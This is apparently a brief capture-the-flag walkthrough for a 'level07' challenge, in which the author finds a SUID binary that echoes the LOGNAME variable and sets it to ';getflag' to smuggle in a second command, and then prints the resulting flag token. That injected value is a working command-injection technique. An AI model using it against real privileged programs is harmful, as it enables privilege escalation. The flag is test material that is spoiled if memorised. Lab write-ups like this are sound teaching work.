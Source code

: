-SUID in home directory
-./level07 => level07
-strings on the suid just like before : we got this time /bin/echo so we can’t  create our script
-we got LOGNAME , I tried to change it to flag07 ; export LOGNAME=flag07; ./level07 => flag07
-so the script print the LOGNAME env variable so I set it. this time to ;getflag
export LOGNAME=“;getflag”
-and I got :
	Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
